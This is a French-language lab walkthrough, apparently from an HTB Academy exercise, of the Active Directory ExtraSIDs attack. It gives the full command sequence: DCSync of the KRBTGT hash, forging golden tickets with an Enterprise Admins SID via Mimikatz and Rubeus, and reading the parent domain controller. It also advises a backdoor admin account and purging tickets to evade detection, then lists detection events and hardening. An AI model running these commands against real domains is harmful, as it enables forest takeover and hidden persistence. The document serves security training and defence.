

L'attaque **ExtraSIDs** permet d'élever les privilèges d'un utilisateur au sein d'une forêt **Active Directory** en exploitant la relation de confiance entre un domaine enfant et un domaine parent via l'injection d'un **SID** de groupe privilégié dans un **TGT** forgé.



## Récupération des informations essentielles

### Vérification de la confiance de domaine
Avant de procéder, il est nécessaire de confirmer l'existence et la nature de la relation de confiance entre les domaines via **PowerView**.

```powershell
Get-DomainTrust
```

### Analyse des permissions de réplication (DCSync rights)
L'attaque repose sur la capacité à extraire le hash **KRBTGT**. Il faut vérifier si le compte compromis possède les droits **DS-Replication-Get-Changes** et **DS-Replication-Get-Changes-All**.

```powershell
# Vérification des droits sur le domaine
Get-DomainObjectAcl -Identity "DC=LOGISTICS,DC=INLANEFREIGHT,DC=LOCAL" -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "Replication" }
```

### Récupération des SIDs
L'utilisation de **PowerView** permet d'identifier les identifiants nécessaires à la création du ticket.

```powershell
# Récupération du SID du domaine enfant
Get-DomainSID

# Récupération du SID du groupe Enterprise Admins du domaine parent
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

> [!info]
> Le **SID** du groupe **Enterprise Admins** est indispensable pour que le **TGT** soit reconnu comme valide par le domaine parent.

## DCSync (KRBTGT Hash)

L'extraction du hash **NTLM** du compte **KRBTGT** est nécessaire pour signer le **Golden Ticket**.

```powershell
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

> [!danger] Prérequis : Nécessite des droits de réplication (DCSync) sur le domaine enfant.

## Génération et injection de Golden Ticket

La forge du ticket s'effectue via **Mimikatz** en utilisant les informations collectées précédemment.

```powershell
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

> [!warning] Condition critique : Le SID du groupe **Enterprise Admins** du domaine parent doit être valide.

## Vérification

La vérification de la présence du ticket en mémoire s'effectue avec **klist**.

```powershell
klist
```

> [!tip] Utiliser 'klist purge' avant toute nouvelle tentative d'injection pour éviter les conflits de tickets.

## Exploitation

L'accès aux ressources du domaine parent est testé via les partages administratifs.

```powershell
ls \\academy-ea-dc01.inlanefreight.local\c$
type \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
```

## Alternative Rubeus

**Rubeus** peut être utilisé pour générer et injecter le ticket en une seule commande.

```powershell
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

## Persistence post-compromission
Pour maintenir l'accès, il est recommandé d'installer une porte dérobée sur un contrôleur de domaine ou de créer un compte utilisateur avec des privilèges de réplication persistants.

```powershell
# Création d'un utilisateur de service avec droits DCSync
net user BackdoorUser Password123! /add /domain
Add-DomainGroupMember -Identity "Domain Admins" -Members "BackdoorUser"
```

## Nettoyage des traces (purge des tickets)
Une fois l'opération terminée, il est impératif de purger les tickets Kerberos de la session courante pour éviter toute détection par des outils de monitoring.

```powershell
klist purge
```

## Détection et contre-mesures

### Surveillance des événements
- **Event ID 4769** : Authentification **Kerberos** suspecte.
- **Event ID 4624** : Connexions inhabituelles sur le contrôleur de domaine.
- **Event ID 4662** : Demandes **LDAP** suspectes.

### Durcissement
- Activation de la protection **LSASS** :
```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 1
```

- Rotation des clés **KRBTGT** :
```powershell
Set-ADAccountPassword -Identity "krbtgt" -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "NewStrongPassword!" -Force)
```

> [!danger] Danger : La rotation du mot de passe **KRBTGT** doit être effectuée deux fois pour invalider les tickets existants.

### Liens associés
- **Kerberos**
- **Mimikatz**
- **PowerView**
- **Active Directory**
- **DCSync**